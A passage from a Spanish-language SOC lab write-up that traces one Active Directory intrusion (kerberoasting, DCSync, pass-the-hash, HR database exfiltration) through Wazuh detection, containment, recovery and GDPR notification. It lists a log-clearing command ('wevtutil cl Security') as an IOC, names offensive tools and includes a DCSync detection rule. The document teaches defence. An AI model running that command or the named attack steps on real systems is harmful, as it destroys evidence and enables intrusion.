<field name="win.eventdata.subjectUserName" negate="yes" type="pcre2">\$$</field>
<description>Posible DCSync: $(win.eventdata.subjectUserName) solicita derechos de replicacion</description>
<mitre><id>T1003.006</id></mitre>
</rule>
</group>
El truco que la hace precisa: los controladores de dominio replican entre ellos legítimamente todo el rato, pero siempre con cuentas de máquina (terminan en $). Por eso el negate sobre subjectUserName con \$$ excluye esa replicación normal: la regla solo salta cuando quien pide replicar es una cuenta que NO es de máquina — como svc_sql. Eso distingue el DCSync malicioso del tráfico legítimo, que es justo lo difícil de esta detección.
Que svc_sql pudiera ejecutar un DCSync significa que tenía permisos de replicación que una cuenta de servicio nunca debería tener. Esta es la mala configuración que hace posible toda la cadena, y va directa a "lecciones aprendidas".
Alerta 3 — Pass-the-Hash de paco T1550.002

Triaje: la firma del PtH es el NTLM. En un dominio sano, una cuenta de administrador se autentica por Kerberos; un logon NTLM de paco, encima desde la IP del atacante, es señal fuerte. Veredicto: incidente casi confirmado.
Alerta 4 — Privilegios de Domain Admin T1078.002
.png)
Triaje: el 4672 va pegado al 4624 anterior y confirma que la cuenta comprometida es potente. Correlacionado con el PtH desde .60.100 = un atacante operando con Domain Admin. Veredicto: crítico.
Alerta 5 — Acceso al SQL como svc_sql T1078.002

Concepto clave: svc_sql sí debe loguearse en el SQL — eso solo no alarma. Lo que lo convierte en incidente es el origen: la cuenta de servicio usándose desde la IP del atacante en vez de por el propio servicio. Una cuenta de servicio autenticándose desde un sitio que no es el suyo es casi siempre compromiso. Veredicto: confirmado en contexto.
Alerta 6 — Acceso masivo a la BBDD T1213

Triaje: esta es la joya de la corona, el objetivo del ataque. El rastro de SQL Server Audit (consultable con sys.fn_get_audit_file) deja dos cosas que cantan: la cuenta de servicio svc_sql tocando la base de datos de RRHH desde fuera, y una elevación a sysadmin de paco — ninguna es actividad normal de la aplicación. Veredicto: brecha de datos confirmada. Aquí se activa el RGPD — datos identificativos (DNI) y económicos (IBAN, salario).
Alerta 7 — Borrado del log de seguridad T1070.001

El detalle de oro: borrar el log local genera él mismo un 1102, y los eventos ya estaban replicados en Wazuh, fuera del alcance del atacante. Veredicto: confirma intención maliciosa. Incidente confirmado al 100%.
07 SOC · Correlación e incidente
Función CSF: DETECT → RESPOND (RS.AN)
El momento clave. Esas alertas dejan de ser ruido cuando comparten usuario, host e IP. Aquí se declara el incidente y arranca el reloj.
Puestas en una línea de tiempo, las piezas cuentan una sola historia:
| Orden | Alerta | Activo | Origen | Severidad |
|---|---|---|---|---|
| 1 | Kerberoasting (4769 svc_sql) | AOM-AD1 | 192.168.60.100 | ALTA |
| 2 | DCSync (4662) — a recapturar | AOM-AD1 | 192.168.60.100 | CRÍTICA |
| 3 | Pass-the-Hash (4624 NTLM paco) | AOM-AD2 | 192.168.60.100 | CRÍTICA |
| 4 | Privilegios admin (4672 paco) | AOM-AD2 | 192.168.60.100 | CRÍTICA |
| 5 | Acceso SQL (4624 svc_sql) | AOM-AD2 | 192.168.60.100 | ALTA |
| 6 | SELECT masivo (SQL Audit) | AOM-AD2 | 192.168.60.100 | CRÍTICA |
| 7 | Borrado de log (1102) | AOM-AD2 | paco | CRÍTICA |
Correlación — esto no son alertas sueltas, es UN incidente
Un hilo común lo ata todo: una única IP origen (192.168.60.100) que recorre el dominio desde la petición de un ticket de servicio hasta el robo de la base de datos y el borrado de huellas, encadenando dos cuentas comprometidas (svc_sql → paco). Es una kill chain de un solo actor: acceso → escalada → movimiento lateral → exfiltración → anti-forense. Deja de ser ruido: se declara incidente CRÍTICO (compromiso de dominio + brecha de datos personales), se abre ticket, se avisa al IR Manager y se pre-avisa al DPO.
08 SOC · Contención y erradicación
Función CSF: RESPOND (RS.MI)
Incidente confirmado. La regla de oro: contener primero, investigar después — pero sin destruir evidencia volátil.
Contención inmediata
Aislar los equipos comprometidos por red (no apagar: se perdería la memoria), y cortar las cuentas que el atacante controla.
# Aislar AOM-AD2 por firewall, permitiendo solo al SIEM (Active Response de Wazuh)
netsh advfirewall firewall add rule name="SOC_ISOLATION_OUT" dir=out action=block remoteip=any
netsh advfirewall firewall add rule name="SOC_ALLOW_WAZUH" dir=out action=allow remoteip=192.168.60.40
# Cortar las cuentas comprometidas
Disable-ADAccount -Identity fran
Set-ADAccountPassword -Identity svc_sql -Reset
Set-ADAccountPassword -Identity paco -ResetCapturar memoria y logs con su hash (cadena de custodia: quién, cuándo, qué) antes de erradicar. Una vez reinstalas, esa evidencia ya no existe.
Erradicación — ir a la causa raíz
No basta con resetear contraseñas. Hay que eliminar lo que hizo posible el ataque:
# Revisar y RETIRAR los permisos de replicación que svc_sql no debería tener
# (DS-Replication-Get-Changes / -Get-Changes-All) sobre el dominio
# Doble reset de krbtgt separado 10h+ (invalida posibles Golden Tickets)
# Reinstalar AOM-AD2 desde imagen limpia — no "limpiar" un host comprometido- Retirar los permisos de replicación de svc_sql — esto mata el DCSync para siempre
- Migrar svc_sql a gMSA — contraseña gestionada y rotada, elimina el kerberoasting
- Reset de toda cuenta logueada en los equipos implicados durante el incidente
- Reinstalar AOM-AD2 desde imagen base — reinstalar tarda 1-2h, investigar todo tardaría días sin garantías
09 SOC · Recuperación
Función CSF: RECOVER (RC.RP)
Restaurar el servicio desde un punto limpio y endurecer antes de reconectar. No se reconecta algo igual de vulnerable que como cayó.
-- Identificar y restaurar un backup ANTERIOR al compromiso
RESTORE DATABASE RRHH FROM DISK = 'E:\Backups\RRHH_limpio.bak' WITH REPLACE, RECOVERY;
DBCC CHECKDB('RRHH') WITH NO_INFOMSGS; -- validar integridadAntes de devolver el servidor a producción, endurecimiento:
- Permisos de SQL revisados (mínimo privilegio sobre RRHH)
- Credential Guard y LSA Protection en los endpoints
- Microsegmentación: el SQL solo accesible desde la subred de aplicación
- Monitorización reforzada 2-4 semanas: thresholds bajos en los hosts implicados y hunting de IOCs en toda la red
10 SOC · Cierre, métricas y AEPD
Función CSF: RESPOND (RS.CO) → GOVERN
El incidente no termina con la recuperación, termina con el aprendizaje. Documentación, métricas, notificación legal y mejora del SOC (ciclo cerrado).
Línea de tiempo del incidente
Este es un entorno de laboratorio donde las fases se ejecutaron en sesiones separadas y se repitieron pruebas, por lo que los timestamps originales de los logs no son consecutivos. La línea de tiempo y las métricas que siguen son una reconstrucción realista del incidente tal como ocurriría en producción, donde un atacante encadena las fases sin pausa. Los valores reflejan tiempos de respuesta SOC plausibles para un incidente de esta gravedad.
| T+ | Evento | Lado |
|---|---|---|
| 00:00 | Reconocimiento (nmap puerto 88) y validación de las credenciales de fran | Atacante |
| 00:03 | Kerberoasting de svc_sql — 4769 en AOM-AD1 | Atacante |
| 00:06 | DCSync — 4662 dispara la regla 100200 (nivel 12) | Detección |
| 00:09 | Pass-the-Hash de paco (4624 NTLM + 4672) — alerta de correlación | Detección |
| 00:12 | El analista correlaciona y declara incidente CRÍTICO | SOC |
| 00:15 | Acceso a RRHH y exfiltración (SQL Audit) — el atacante consigue los datos | Atacante |
| 00:18 | Borrado del log (1102) — última acción del atacante | Atacante |
| 00:35 | Contención completada: equipos aislados y cuentas cortadas | Respuesta |
| 04:30 | BBDD restaurada desde backup limpio y entorno endurecido | Recuperación |
Métricas del incidente
Derivadas de la línea de tiempo anterior:
El dato que importa: la detección (12 min) llega antes de que el atacante termine (18 min). Con buena telemetría, el SOC entra en juego mientras el incidente aún está en curso — no después. La contención en ~35 min y la recuperación en horas son objetivos razonables para un compromiso de dominio con brecha de datos.
Indicadores de compromiso (IOCs)
| Tipo | Valor | Contexto | Severidad |
|---|---|---|---|
| IP atacante | 192.168.60.100 | Origen de toda la cadena | CRÍTICA |
| Cuenta inicial | fran | Credenciales filtradas | ALTA |
| Cuenta de servicio | svc_sql | Kerberoasting + DCSync + acceso SQL | CRÍTICA |
| Hash NT | b812e8f0…906637 | paco — Pass-the-Hash | CRÍTICA |
| SPN abusado | MSSQLSvc/SQL01.AOM-SOC.lab:1433 | Objetivo del kerberoasting | ALTA |
| Ficheros | rrhh_exfiltrado.csv · query.sql | Datos robados (en la Kali) | CRÍTICA |
| Comando | wevtutil cl Security | Borrado de log (1102) | ALTA |
Notificación a la AEPD RGPD art. 33
Se exfiltraron datos identificativos (nombre, DNI) y económicos (IBAN, salario) de ~1000 empleados. Esto obliga a notificar a la AEPD en un máximo de 72h (RGPD art. 33) y, dado el riesgo alto (posible fraude bancario y suplantación), a comunicar a los afectados (art. 34). Se documenta naturaleza, categorías de datos y afectados, posibles consecuencias y medidas adoptadas.
Mejora del SOC — ciclo cerrado
Las reglas que nacieron durante el incidente vuelven al catálogo permanente: detección de 4769 contra cuentas de servicio, alerta de logon NTLM de cuentas privilegiadas, y la que faltaba — 4662 de replicación (DCSync). Eso es cerrar el bucle PDCA: el incidente te deja mejor preparado para el siguiente.
11 Conclusión
Las siete alertas no eran incidentes aislados: formaban una única kill chain. El acceso de Fran abrió la puerta al kerberoasting; el crackeo dio paso al DCSync; el DCSync entregó a paco; paco permitió el movimiento lateral; y svc_sql, el acceso final a los datos. Detectarlo, correlacionarlo y responderlo bajo un marco es exactamente lo que hace un analista SOC.
| Fase del ataque | Herramienta | Detectado por (Event ID) | MITRE ATT&CK |
|---|---|---|---|
| Kerberoasting | Impacket GetUserSPNs | 4769 (svc_sql) | T1558.003 |
| Volcado NTDS | secretsdump (DCSync) | 4662 (replicación) | T1003.006 |
| Movimiento lateral | NetExec (Pass-the-Hash) | 4624 NTLM + 4672 | T1550.002 |
| Acceso a datos | impacket-mssqlclient | 4624 svc_sql + SQL Audit | T1213 |
| Anti-forense | wevtutil cl Security | 1102 | T1070.001 |
"Ver una alerta y apagar un servidor no es responder a un incidente. Responder es entender que siete alertas dispersas son un solo atacante, contener sin destruir la evidencia, erradicar la causa raíz —no el síntoma— y cerrar el caso dejando al SOC mejor preparado que antes."